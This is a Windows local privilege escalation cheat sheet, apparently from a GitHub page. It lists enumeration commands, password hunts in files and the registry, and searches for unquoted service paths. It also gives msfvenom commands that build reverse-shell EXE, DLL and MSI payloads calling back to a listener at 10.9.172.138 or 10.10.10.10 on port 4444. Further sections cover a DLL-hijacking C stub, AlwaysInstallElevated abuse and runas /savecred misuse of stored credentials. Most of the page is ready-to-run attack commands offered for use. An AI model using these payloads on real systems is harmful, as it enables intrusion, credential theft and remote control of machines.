 **`Information Gathering`**
- User enumeration




|cmd|description|
|-------|------|
|whoami /priv|Current user’s privileges|
|net users|List Users|
|net user Administrator|list user info|
|qwinsta / query session|Other users logged in simultaneously|
|net localgroup|User groups defined on the system|
|net localgroup Administrators|List members of a specific group|


- System Info

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`


- Searching Files
`findstr /si password *.txt`

- Check patch

`wmic qfe get Caption,Description,HotFixID,InstalledOn`

- Network info

`netstat -ano`

- scheduled tasks

`schtasks /query /fo LIST /v`

- Drivers

`driverquery`

- AntiVirus

`sc query windefend`
`sc queryex type=service`


- List Vulnerable SoftWare

`wmic product get name,version,vendor`
`wmic service list brief`
`wmic service list brief | findstr  "Running"`

- List services info

`sc qc [servicename]`

```bat
sc qc VMnetDHCP
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VMnetDHCP
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\SysWOW64\vmnetdhcp.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VMware DHCP Service
        DEPENDENCIES       : VMnetuserif
        SERVICE_START_NAME : LocalSystem

```

- unquoted  service path

```bat
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```


```bash
C:\Users\user>wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
Fitbit Connect Service                                                              Fitbit Connect                            C:\Program Files (x86)\Fitbit Connect\FitbitConnectService.exe                     Auto
RemoteMouseService                                                                  RemoteMouseService                        C:\Program Files (x86)\Remote Mouse\RemoteMouseService.exe                         Auto
Brother BRAgent                                                                     WBA_Agent_Client                          C:\Program Files (x86)\Brother\BRAgent\BRAgtSrv.exe                                Auto


```
*Using Metasploit*

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.172.138   LPORT=4444 -f exe -o  Common.exe
```




- DLL Hijacking

```c
#include <windows.h> 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) 
{
if (dwReason == DLL_PROCESS_ATTACH) 
{
	system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
	
	 ExitProcess(0); 
										
} 
	return TRUE; 
}
```

```bash
x86_64-w64-mingw32-gcc win.c -shared -o hijackme.dll
```

restart services

```bash
sc stop dllsvc & sc start dllsvc
```

*DLL hijacking using metasploit*

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.172.138 LPORT=4444 -f dll -o  hijackme.dll

```



- Token Impersonation

`Juciy potato`

- AlwaysInstallElevated


```text
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```


*create payload*

```bash

msfvenom -p windows/x64/shell_reverse_tcpLHOST=10.10.10.10 LPORT=4444 -f msi -o evil.msi
```

*run payload*
```text
msiexec /quiet /qn /i C:\Windows\Temp\evil.msi
```


- Saved Password

*list saved password*
`cmdkey /list`

*exploit saved password*

`runas /savecred /user:admin evil.exe`


- Registry Keys

Registry keys potentially containing passwords

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


- Unattend Files

`Unattend.xml files helps system administrators setting up Windows systems`







**Resource**
- [PayloadsAllTheThings/Windows - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [sagishahar/lpeworkshop: Windows / Linux Local Privilege Escalation Workshop (github.com)](https://github.com/sagishahar/lpeworkshop)
- [DLL Hijacking - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/privilege-escalation/t1038-dll-hijacking)
